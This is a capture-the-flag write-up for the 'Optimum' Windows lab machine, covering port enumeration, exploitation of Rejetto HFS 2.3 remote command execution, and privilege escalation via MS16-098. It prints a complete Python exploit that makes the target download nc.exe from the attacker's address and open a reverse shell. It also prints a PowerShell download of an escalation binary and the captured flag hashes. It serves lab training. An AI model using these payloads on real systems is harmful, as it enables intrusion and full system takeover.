 ![](pics/logo.png)

# Optimum (Windows)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.127 -- -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Looking at the open port 80 via the Browser, we see following page:

![](pics/website.png)

The server is hosting a HTTPFileServer version 2.3. Doing some research shows, that this specific version has some kind of Remote Code Injection vulnerability.

## Exploitation

The version of the File server uses a library `ParserLib.pas`, which contains a vulnerable function `findMacroMarker`

```
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

*"Rejetto HFS versions 2.3, 2.3a, and 2.3b are vulnerable to remote command execution due to a regular expression in parserLib.pas that fails to handle null bytes. Commands that follow a null byte in the search string are executed on the host system.* " (https://www.kb.cert.org/vuls/id/251276)

Such a command must be written in the HFS scripting language format. E.g commands can be executed as follows:

```
http://localhost:80/?search=%00{.exec|<COMMAND HERE>.}
```

This will stop the regex from parsing the macro and instead execute the command.


To abuse the vulnerability, I used this script here (might have to execute it several times). You also need to start a http server, from which the script then can download the `nc.exe`, in order to create a reverse shell to your machine.

```python
import urllib2
import sys

try:
        def script_create():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

        def execute_script():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

        def nc_run():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

        ip_addr = "10.10.14.26" #local IP address
        local_port = "4444" # Local Port number
        vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
        save= "save|" + vbs
        vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
        exe= "exec|"+vbs2
        vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
        exe1= "exec|"+vbs3
        script_create()
        execute_script()
        nc_run()
except:
        print """[.]Something went wrong..!
        Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
        Don't forgot to change the Local IP address and Port number on the script"""

```

If everything is setup correctly, we can run the script and receive a reverse shell:

```
C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

Instead of using this script, the vulnerability can also be manually exploited, by creating a Powershell reverse shell (watch e.g. `Ippsec`: https://www.youtube.com/watch?v=kWTnVBIpNsE).

Also a Metasploit exploit module is available.


## Privilege Escalation

Now that we have access to the server, we can look for a way to escalate our privileges. Therefore, we copy the `systeminfo` output to our local machine and use `Windows-Exploit-Suggester` (https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to identify a possible vulnerability.

Going through the list, I stumbled upon this vulnerability: https://www.exploit-db.com/exploits/41020 ([Details](https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/), [Binary](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)).

As wget and curl are both not available for our current user, we have to use Powershell.

```
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.26/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Afterwards, we can use the exploit to obtain system privileges.

```
C:\Users\Public\Downloads>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public\Downloads>whoami
whoami
nt authority\system
```

## Post-Exploitation

User Flag
```
type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

Root Flag

```
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```